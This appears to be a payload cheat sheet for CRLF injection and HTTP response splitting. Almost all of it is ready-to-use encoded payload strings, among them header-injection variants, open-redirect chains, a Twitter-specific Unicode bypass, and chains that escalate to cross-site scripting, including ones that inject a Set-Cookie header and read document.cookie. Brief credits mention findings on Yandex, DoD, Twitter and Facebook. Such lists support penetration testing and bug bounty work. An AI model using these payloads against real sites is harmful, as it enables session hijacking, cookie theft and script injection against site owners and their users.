 ## CRLF Injection || HTTP Response Splitting

```
%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
```
**Header-based test, site root:**
```
%0d%0aheader:header
```
```
%0aheader:header
```
```
%0dheader:header
```
```
%23%0dheader:header
```
```
%3f%0dheader:header
```
**Chained with Open Redirect server misconfiguration - sometimes work (discovered in some Yandex sites, was not exploitable from the root):**

```
//www.google.com/%2f%2e%2e%0d%0aheader:header
```
```
/www.google.com/%2e%2e%2f%0d%0aheader:header
```
```
/google.com/%2F..%0d%0aheader:header
```
**CRLF by @filedescriptor (http://blog.innerht.ml/twitter-crlf-injection/) - twitter specific:**
```
%E5%98%8A%E5%98%8Dheader:header
```

**CRLF Injection to XSS**

```
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
```
Response splitting on 302 Redirect, before Location header (Discovered in DoD):
```
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
```
Response splitting on 301 code, chained with Open Redirect to corrupt location header and break 301 (facebook bug). xxx:1 was used for breaking open redirect destination (Location header). Found by @black2fan. Great example how to escalate CRLF to XSS on such, it would seem, unexploitable 301 code:
```
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```
